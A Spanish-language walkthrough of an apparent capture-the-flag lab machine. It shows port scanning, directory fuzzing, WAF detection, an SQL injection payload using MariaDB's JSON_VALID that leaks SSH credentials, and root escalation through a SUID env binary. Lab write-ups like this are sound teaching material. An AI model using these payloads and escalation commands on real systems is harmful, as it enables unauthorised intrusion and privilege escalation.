









## FASE ENUMERACION

Sabiendo la IP de la máquina víctima vamos a hacer un reconocimiento de los puertos abiertos y los servicios
que corren por ellos, así como sus versiones para ver si tienen alguna vulnerabilidad:

IP-->`172.17.0.2`

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```


```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

-Puerto 22 con SSH en versión no vulnerable 

-Puerto 80 HTTP

Sin credenciales ni usuarios nos vamos a centrar en el puerto 80, vamos a lanzar un whatweb para ver si reporta algo interesante:

```bash
whatweb 172.17.0.2 | tee whatweb
```


Lo más relevante es ese 403, vamos a visitar la página.


Un panel, miramos el código fuente y no vemos nada, vamos a fuzzear

```bash
 feroxbuster --url "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,html,zip, ,log,js,cgi,js
```





no encontramos mucho mas salvo que redirecciones, intentamos un ataque con fuerzabruta con hydra y nos reporta falsos positivos, teniendo solo eso,
vamos a intentar una inyeccion sql





Y nos redirecciona





Algo lo ha bloqueado, vamos a ver si hay un waf detrás


```bash
 wafw00f http://172.17.0.2
```





## FASE INTRUSIÓN

efectivamente lo hay, aquí es ir probando inyecciones con diccionarios etc, pero al final, en los fallos salta que es maria db, mirando documentaciones:

```bash
https://mariadb.com/docs/server/reference/sql-functions/special-functions/json-functions/json_valid
```

encuentro esta query:

```
JSON_VALID(value)
```

así que voy a intentar inyectar algo con esta estructra:

```
'OR JSON_VALID(value)- --
```

En valor intento con name, password, nombre, password, pass y por fin:

```
'OR JSON_VALID(id)- --
```




y conseguimos unas credenciales para SSH





Nos conectamos por SSH con las credenciales:

```bash
ssh baluton@172.17.0.2
```




##  FASE ESCALADA PRIVILEGIOS

Vamos a mirar las versiones del kernel por si es vulnerable, si estamos en alfún grupo extraño, si tienemos privilegios suudo y no encontramos nada hasta buscar binarios con permiso SUID:


```
baluton@060d666f2127:~$ uname -a
Linux 060d666f2127 6.12.33+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.33-1kali1 (2025-06-25) x86_64 x86_64 x86_64 GNU/Linux
baluton@060d666f2127:~$ id
uid=1000(baluton) gid=1000(baluton) groups=1000(baluton)
baluton@060d666f2127:~$ sudo -l
-bash: sudo: command not found
baluton@060d666f2127:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/env
/usr/bin/passwd
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
baluton@060d666f2127:~$ 
```





Vemos `/usr/bin/env` , nos vamos a nuestra página de confianza para explotación de binarios y buscamos `env`

```bash
https://gtfobins.github.io/
```





Así pues vamos a explotar la vulnerabilidad:

```bash
/usr/bin/env /bin/bash -p
```


